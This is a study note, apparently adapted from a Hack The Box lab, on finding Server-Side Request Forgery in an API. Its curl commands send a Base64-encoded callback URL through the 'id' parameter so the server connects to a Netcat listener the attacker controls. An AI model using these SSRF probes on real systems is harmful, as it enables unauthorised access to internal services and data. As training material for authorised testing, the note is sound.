 ```yaml
---
sticker: emoji//1f480
---
```


# Server Side Request Forgery (SSRF)

Server-Side Request Forgery (SSRF) attacks, listed in the OWASP top 10, allow us to abuse server functionality to perform internal or external resource requests on behalf of the server. We usually need to supply or modify URLs used by the target application to read or submit data. Exploiting SSRF vulnerabilities can lead to:

* Interacting with known internal systems
* Discovering internal services via port scans
* Disclosing local/sensitive data
* Including files in the target application
* Leaking NetNTLM hashes using UNC Paths (Windows)
* Achieving remote code execution

We can usually find SSRF vulnerabilities in applications or APIs that fetch remote resources. Our [Server-side Attacks](https://academy.hackthebox.com/module/details/145) module covers SSRF in detail.

As we have mentioned multiple times, though, we should fuzz every identified parameter, even if it does not seem tasked with fetching remote resources.

Let us assess together an API that is vulnerable to SSRF.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target API and follow along.

Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api/userinfo`.

Let us first interact with it.

```shell-session
smoothment@htb[/htb]$ curl http://<TARGET IP>:3000/api/userinfo
{"success":false,"error":"'id' parameter is not given."}
```

The API is expecting a parameter called _id_. Since we are interested in identifying SSRF vulnerabilities in this section, let us set up a Netcat listener first.

```shell-session
smoothment@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
```

Then, let us specify `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` as the value of the _id_ parameter and make an API call.

```shell-session
smoothment@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>"
{"success":false,"error":"'id' parameter is invalid."}
```

We notice an error about the _id_ parameter being invalid, and we also notice no connection being made to our listener.

In many cases, APIs expect parameter values in a specific format/encoding. Let us try Base64-encoding `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` and making an API call again.

```shell-session
smoothment@htb[/htb]$ echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
smoothment@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"
```

When you make the API call, you will notice a connection being made to your Netcat listener. The API is vulnerable to SSRF.

```shell-session
smoothment@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 50542
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.24.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close
```

## Question

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250219172102.png)
